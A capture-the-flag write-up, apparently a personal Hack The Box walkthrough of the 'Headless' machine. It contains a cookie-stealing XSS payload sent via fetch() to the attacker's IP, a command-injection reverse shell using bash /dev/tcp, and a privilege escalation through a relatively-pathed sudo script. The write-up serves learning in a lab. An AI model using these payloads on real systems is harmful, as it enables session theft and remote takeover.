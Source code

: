 # [Headless](https://app.hackthebox.com/machines/Headless) Writeup [HTB]
## ⏯️ Credits
This was my first XXS/command injection challenge, and I was super lost. So I basically followed [this official video](https://www.youtube.com/watch?v=FDCpJbS1OuQ). It was great!

## 🗺️ Exploring the website
We begin by scanning the services that are exposed using `nmap`. 
We discover that port 5000 is open, and it's returning some HTML. Therefore, we connect to it using the browser.

The website appears to be under construction. We also notice that HTTP requests automatically set an `is_admin` cookie:
```
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```
We try to see whether it's written in base 64:
```sh
$ echo InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs | base64 -d
"user"base64: invalid input
```
We deduce that the first part determines our privileges (we are a simple user), while the second part looks like a signature. Interestingly enough, the cookie doesn't change when we reload the page, meaning there's no concept of session, and we can most likely steal the admin cookie.

Finally, we use `feroxbuster` to bruteforce the website directories. We find 2 of them:
- `/support`, containing a POST form;
- `/dashboard`, that we don't have access to (this most likely requires admin privileges).

## 🍪 Playing with the form
The contact form contains the following fields: first name, last name, email, phone number and message. Given that we want to steal that admin cookie, we begin by trying some POC XXS in the message field:
```html
<script>alert('AAA')</script>
```
The website is not happy about it, as it returns a "Hacking Attempt Detected" page, stating that the admin will be notified, and printing on screen the header of our POST request. Interesting... 
If the admin visualizes on screen the same exact header of our request, then we can inject some HTML script in it, and get the admin cookie nicely delivered to us!

To do so, we add a new, not-at-all-sketchy cookie: 
```html
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xxs=<script>fetch("http://10.10.14.136:4815/?"+document.cookie)</script>
```
where `10.10.14.136` is our vpn IP address.

We also open a channel on port 4815 to see our cookie:
```sh
$ nc -lvnkp 4815
```

We wait a few minutes and... voilà! The admin cookie has been delivered, right at our doorsteps!
```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 🐚 Accessing the dashboard and getting the reverse shell
Now that we got admin privileges, we can easily access to the `/dashboard` page. This is another form-looking thing, asking for a date and retrieving website statistics for it.
We want to get some kind of shell on the app web server, so we try to inject commands in the `date` parameter of the HTTP POST body. As before, we begin with some POC:
```
date=2023-09-15;sleep 2
```
Bingo! The response takes around 2 seconds to arrive, meaning we can inject commands in the web server and get a well deserved reverse shell!
```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.136/4815+0>%261'
```
Here we are using the classic `bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'`, which runs an interactive instance of bash and redirects everything to our local web server.

## 🫚 Becoming root and owning the ~~world~~ flag!
Now that we have our shell, we begin with some exploration:
```sh
$ whoami
dvir
$ sudo -l
[...]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
From the HTB website, we know the flag is in the `/root` directory, which of course is not accessible to our peasant user.
However, we are still allowed to run this `/usr/bin/syscheck` script with root permissions. Interesting... 

The script is not very long. The most interesting part is this "if" clause:
```sh
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
While all the other commands are called with their full name, this `./initdb.sh` script is called with its relative path. Moreover, since it's called by a process with root privileges, it will also have root privileges. Very convenient...

From our home directory (on which we have writing permissions), we create our own `initdb.sh` file. Useless to day, it will **__not__** initialize the database.
```sh
$ echo bash > initdb.sh
$ chmod +x initdb.sh
```
Now we are ready to run the system check!
```sh
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.5G
System load average:  0.00, 0.00, 0.04
Database service is not running. Starting it...
$ whoami
root
$ ls /root
root.txt
$ cat /root/root.txt
<THE FLAG>
```
## 🚩 Conclusion and tools recap
That's all folks!

I really enjoyed this challenge, it was a good starting point for HTB and I learned a lot of useful stuff!

**__Tools recap__**
- `nmap` to scan ports: nmap -sC -sV -p- 10.10.11.8
- `feroxbuster` to bruteforce the website directories: feroxbuster --url http://10.10.11.8:5000 -w ~/snap/feroxbuster/common/raft-medium-directories.txt
- Burp Suite Community Edition to make and intercept HTTP requests



